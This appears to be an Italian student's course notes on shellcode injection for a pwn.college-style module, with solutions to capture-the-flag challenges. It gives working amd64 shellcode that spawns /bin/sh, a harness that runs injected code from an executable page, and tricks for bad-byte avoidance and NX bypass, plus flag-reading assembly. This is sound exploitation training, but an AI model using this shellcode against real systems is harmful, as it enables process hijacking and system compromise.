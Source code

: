 +++
title = "Mod 4: Shellcode Injection"
+++

## Appunti lezioni

{{% resources pattern="files/" /%}}

### Intro

Come abbiamo visto negli scorsi moduli i processori moderni seguono l'architettura Von Neumann.
L'architettura Harvard separa la memoria eseguibile dalla memoria in lettura/scrittura (__TODO:__ cercare perchè/cenni storici).
Perchè facciamo notare questa differenza? Perchè in un arch Von Neumann è possibile fare _shellcode injection_, ovvero redirezionare l'esecuzione di un processo in modo arbitrario, inserendo come input al programma le istruzioni binarie da eseguire.

### Come si arriva a poter usare una shellcode injection

Si tratta quasi sempre di bug introdotti dal programmatore (esempio fatto a lezione, trattare un buffer di char al posto di un puntatore di funzione. Vabbè sto esempio fa un po' schifo, visto che il sistema di tipi dovrebbe mettersi in mezzo a compile time).

### Shellcode?

Un pezzo di software, in codice macchina, che fai eseguire al processo che stai attaccando.
Chiamato "shell"code perchè normalmente lo scopo è avere una shell sulla macchina compromessa.
Lo shellcode per avere una shell su amd64 linux è il seguente:

```
mov rax, 59             # this is the syscall number of execve
lea rdi, [rip+binsh]    # points the first argument of execve at the /bin/sh string below
mov rsi, 0              # this makes the second argument, argv, NULL
mov rdx, 0              # this makes the third argument, envp, NULL
syscall                 # this triggers the system call
binsh:                  # a label marking where the /bin/sh string is
.string "/bin/sh"
```

Ovviamente, può essere usato per fare qualsiasi cosa, non solo aprire shell.

### Fast prototyping

* Compilare shellcode in ELF:

```
.global _start
_start:
.intel_syntax noprefix
<inserire shellcode>

$ gcc -N -nostdlib -static shellcode.s -o shellcode-elf
```

* va poi estratta la parte interessante per usarlo nell'exploit (aka `.text`)
* Creare un programma C che prende shellcode in input, per simulare la situazione trovata nel processo da esploitare

```c
page = mmap(0x1337000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANON, 0, 0);
read(0, page, 0x1000);
((void(*)())page)();
```

* ovviamente puoi sempre usare strace e i debugger
  * si può assemblare lasciando i simboli di debug (non ci sono ripercussioni su `.text`)
  * spesso è utile inserire `int3` direttamente nel shellcode
* qemu per archittetture diverse da amd64

### Problemi tipicamente riscontrati

* Bisogna stare attenti alle dimensioni dei dati spostati. Gli assembler ti permettono di specificarlo se necessario.
* Spesso ti ritrovi a non poter usare alcuni byte, a seconda del mezzo con cui comunichi con il process (ie `\n`). Ecco alcune possibili soluzioni:
  * riscrivere lo shellcode in per fargli avere la stessa semantica
  ie: `mov rax, 10 (48c7c00a000000)` si può riscrivere come `mov rax, 9; inc rax (48C7C00900000048FFC0)`
    * ci sono tool automatici, ma ogni tanto si rompono e diventa difficile capire cosa stia succedendo (il dudo sconsiglia di usarli)
  * salvare il codice (con i byte vietati modificati) come data, ripristinare i byte necessari e poi eseguirlo
  * fare uno shellcode multi-stage, dove il primo stage esegue semplicemente una read verso `[rip]`, e il resto dello shellcode viene iniettato dopo
* shellcode può essere modificato in modo strano prima di essere eseguito, qui la soluzione deve essere ad-hoc

### Protezione: No-eXecute

Il sistema operativo riesce a mitigare __quasi__ tutti i casi in cui lo shellcode ci permette di exploitare roba.
In pratica le pagine il kernel decide quali pagine di memoria hanno i permessi di essere eseguiti, e normalmente non assegna permessi di scrittura e esecuzione alla stessa pagina.
Per poter eseguire lo shellcode, le soluzioni possono essere le seguenti:

* usare altri metodi per usare la syscall `mprotect` e rendere eseguibile la pagina scrivibile
* accedere ad una pagina che ha già i permessi `wx`, queste si trovano tipicamente nello spazio di memoria dei compilatori JIT, dato che hanno bisogno di compilare ed eseguire on the fly
  * JIT spraying (__non ho ben capito cosa sia__, ma non credo sia nello scope di pwncollege)
* molti sistemi embedded non implementano NX

#### Approfondimento sull'implementazione di NX

[Il sistema è gestito a livello di pagine di memoria](https://wiki.osdev.org/Paging)
Niente, in realtà non ho capito
Forse mi aiuta capire come funziona [pae](https://it.wikipedia.org/wiki/Physical_Address_Extension)

## Altre risorse

* <https://www.cs.fsu.edu/~langley/CNT5605/2017-Summer/assembly-example/assembly.html>
* <https://filippo.io/linux-syscall-table/>

## Challenges

### 1

```assembly
        mov rax, 2
        lea rcx, [rip+.after_open]
        lea rdi, [rip+.flag_filename]
        xor rsi, rsi
        syscall
        .after_open:

        mov rdi, rax

        mov rax, 0
        lea rcx, [rip+.after_read]
        lea rsi, [rip+.buffer]
        mov rdx, 0x99
        syscall
        .after_read:

        mov rax, 1
        lea rcx, [rip+.after_write]
        mov rdi, 1
        lea rsi, [rip+.buffer]
        mov rdx, 0x99
        syscall
        .after_write:

        ret

        .flag_filename:
        .string "/flag"
        .buffer:
        .space 0x100
```

### 2

Uso `space` (visto prima) per inizializzare 0x90 (`nop`) per 0x800 byte

### 3

Ez, basta lavorare un po' con gli indirizzi e fare sottrazioni dove serve

### 4

```
        .macro .my_deref reg, lowreg, label
        call .push_rip
        pop \reg
        add \lowreg, \label - . + 1
        .endm
```

che chiama

```
        .push_rip:
        pop r11
        push r11
        push r11
        ret
```
